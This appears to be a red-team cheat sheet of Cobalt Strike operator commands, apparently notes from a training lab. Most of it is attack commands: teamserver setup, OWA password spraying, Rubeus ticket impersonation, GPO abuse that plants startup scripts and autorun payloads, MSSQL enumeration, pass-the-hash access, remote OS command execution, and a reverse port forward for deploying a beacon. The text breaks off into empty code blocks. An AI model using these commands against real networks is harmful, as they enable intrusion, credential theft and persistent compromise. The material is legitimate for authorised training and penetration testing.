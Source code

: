 ### Starting the TeamServer
```
sudo ./teamserver <host-ip> <password> <c2-profile-path>
```

### Running TeamServer as Systemd service
`/etc/systemd/system/teamserver.service`
```
[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=<cobaltstrike-dir>
ExecStart=<teamserver-path> <host-ip> <password> <c2-profile-path>

[Install]
WantedBy=multi-user.target
```

---
## Initial Compromise
### MailSniper Password Spraying
#### Importing
`ipmo C:\Tools\MailSniper\MailSniper.ps1`

#### Enumerating NetBIOS name for domain
`Invoke-DomainHarvestOWA -ExchHostname <mailserver-hostname>`

#### Enumerating valid email users
`Invoke-UsernameHarvestOWA -ExchHostname <mailserver-hostname> -Domain <domain> -UserList <possible-names-path> -OutFile <outfile>`

---
### Kerberos

#### Enumerating TGTs on system
```
execute-assembly <C:\Rubeus\path> triage
```
#### Creating process with TGT
```
execute-assembly <C:\Rubeus\path> createnetonly /program:C:\Windows\System32\cmd.exe /domain:<domain> /username:<user> /password:FakePass /ticket:<tgt>
```

**User can then be impersonated with:**
`beacon> steal_token <pid>`

**Practical command**
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:<tgt>
```

---
### Group Policy Objects
#### Enumerating GPOs with exploitable properties
**Requires importing Powerview**
```
beacon> powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
```

#### Resolving GPO Display name
```
beacon> powershell Get-DomainGPO -Identity <ObjectDN> | select displayName, gpcFileSysPath
```

#### Resolving Domain Group that GPO can be modified by
```
beacon> powershell ConvertFrom-SID <SID>
```

#### Enumerating which OUs a GPO applies to
```
beacon> powershell Get-DomainOU -GPLink "<GPO-GUID>" | select distinguishedName
```

### Enumerate computers in an OU
```
beacon> powershell Get-DomainComputer -SearchBase "<OU-distinguishedname>" | select dnsHostName
```

### Adding Computer Startup Script to GPO
**Using SharpGPOAbuse**
```
beacon> execute-assembly <C:\SharpGPOAbuse\Path> --AddComputerScript --ScriptName <script-name> --ScriptContents "start /b <program-path>" --GPOName "<vuln-gpo-name>"
```

### Creating new GPOs
#### 1. Enumerate groups that can create new GPOs
```
beacon> powershell Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }
```

#### 2. Enumaerate groups that can link GPOs to OUs
```
beacon> powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl
```

```
beacon> powershell ConvertFrom-SID <sid>
```

#### Check if GPOs can be created from Powershell
**Using Powershell RSAT modules**
```
beacon> powershell Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
```

#### Create and link new GPO
```
beacon> powershell New-GPO -Name "<gpo-name>"
```

#### Creating an HKLM AutoRun key on the GPO'
```
beacon> powershell Set-GPPrefRegistryValue -Name "<gpo-name>" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "<value-name>" -Value "C:\Windows\System32\cmd.exe /c <payload-path>" -Type ExpandString
```

#### Applying a GPO to a target OU
```
beacon> powershell Get-GPO -Name "<gpo-name>" | New-GPLink -Target "<ou-string>"
```

---
## MS-SQL Servers
#### Tools
- PowerUpSQL
- SQLRecon

#### Enumerate MSSQL instances on domain
```
beacon> powershell Get-SQLInstanceDomain
```

#### Testing connection to SQL server
```
beacon> powershell Get-SQLConnectionTest -Instance "<hostname>,<port>" | fl
```

#### Get information about MSSQL server instance
```
beacon> powershell Get-SQLServerInfo -Instance "<hostname>,<port>"
```

#### Enumerating all accessible SQL server instances
```
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```

#### Enumerating SQL Server instances using SQLRecon
```
# Enumerate SPNs
beacon> execute-assembly <C:\SQLRecon\Path> /enum:sqlspns

# Get information about instance
beacon> execute-assembly <C:\SQLRecon\Path> /auth:wintoken /host:<hostname> /module:info
```

#### Enumerate accessible roles
**Uses the beacon's token**
```
beacon> execute-assembly <C:\SQLRecon\Path> /a:wintoken /h:<hostname>,<port> /m:whoami
```

#### Find groups with users that might have SQL access
```
beacon> powershell Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }
```

#### Enumerating the MSSQL service account
**Possible if the service account is kerberoastable and the password able to be cracked.**

```
beacon> execute-assembly <C:\SQLRecon\Path> /a:windomain /d:<domain> /u:<sql-svc-acc> /p:<password> /h:<hostname>,<port> /m:whoami
```

#### Accessing SQL Server with PTH
**SOCKS proxy to the network is required**.
```
proxychains mssqlclient.py <dom\user>@<ip> -hashes :<ntlm-hash> -windows-auth
```

#### Executing shell commands on MSSQL Server
**Using PowerUpSQL**
```
beacon> powershell Invoke-SQLOSCmd -Instance "<hostname>,<port>" -Command "<cmd>" -RawResults
```


#### Deploying beacon on MSSQL Server
1. Set up reverse port forward on host that can reach the TeamServer 
```
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

beacon> rportfwd 8080 127.0.0.1 80
```

2. 
```

```

```

```

```

```
